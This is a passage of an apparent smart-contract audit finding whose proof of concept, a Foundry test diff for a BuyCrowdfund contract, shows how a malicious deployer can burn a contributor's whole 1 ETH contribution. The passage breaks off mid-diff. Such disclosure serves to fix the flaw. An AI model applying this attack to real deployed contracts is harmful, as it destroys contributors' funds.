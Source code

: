 ### Proof Of Concept

This diff illustrates scenario 2, i.e. where a malicious deployer burns all contributions (1 ETH) of `contributor`. He loses 0.25ETH for the attack, but this could be reduced significantly (with more `burn(payable(address(0)))` calls:

```diff
--- a/sol-tests/crowdfund/BuyCrowdfund.t.sol
+++ b/sol-tests/crowdfund/BuyCrowdfund.t.sol
@@ -36,9 +36,9 @@ contract BuyCrowdfundTest is Test, TestUtils {
     string defaultSymbol = 'PBID';
     uint40 defaultDuration = 60 * 60;
     uint96 defaultMaxPrice = 10e18;
-    address payable defaultSplitRecipient = payable(0);
+    address payable defaultSplitRecipient = payable(address(this));
     uint16 defaultSplitBps = 0.1e4;
-    address defaultInitialDelegate;
+    address defaultInitialDelegate = address(this);
     IGateKeeper defaultGateKeeper;
     bytes12 defaultGateKeeperId;
     Crowdfund.FixedGovernanceOpts defaultGovernanceOpts;
@@ -78,7 +78,7 @@ contract BuyCrowdfundTest is Test, TestUtils {
                     maximumPrice: defaultMaxPrice,
                     splitRecipient: defaultSplitRecipient,
                     splitBps: defaultSplitBps,
-                    initialContributor: address(this),
+                    initialContributor: address(0),
                     initialDelegate: defaultInitialDelegate,
                     gateKeeper: defaultGateKeeper,
                     gateKeeperId: defaultGateKeeperId,
@@ -111,40 +111,26 @@ contract BuyCrowdfundTest is Test, TestUtils {
     function testHappyPath() public {
         uint256 tokenId = erc721Vault.mint();
         // Create a BuyCrowdfund instance.
-        BuyCrowdfund pb = _createCrowdfund(tokenId, 0);
+        BuyCrowdfund pb = _createCrowdfund(tokenId, 0.25e18);
         // Contribute and delegate.
         address payable contributor = _randomAddress();
         address delegate = _randomAddress();
         vm.deal(contributor, 1e18);
         vm.prank(contributor);
         pb.contribute{ value: contributor.balance }(delegate, "");
-        // Buy the token.
-        vm.expectEmit(false, false, false, true);
-        emit MockPartyFactoryCreateParty(
-            address(pb),
-            address(pb),
-            _createExpectedPartyOptions(0.5e18),
-            _toERC721Array(erc721Vault.token()),
-            _toUint256Array(tokenId)
-        );
-        Party party_ = pb.buy(
-            payable(address(erc721Vault)),
-            0.5e18,
-            abi.encodeCall(erc721Vault.claim, (tokenId)),
-            defaultGovernanceOpts
-        );
-        assertEq(address(party), address(party_));
-        // Burn contributor's NFT, mock minting governance tokens and returning
-        // unused contribution.
-        vm.expectEmit(false, false, false, true);
-        emit MockMint(
-            address(pb),
-            contributor,
```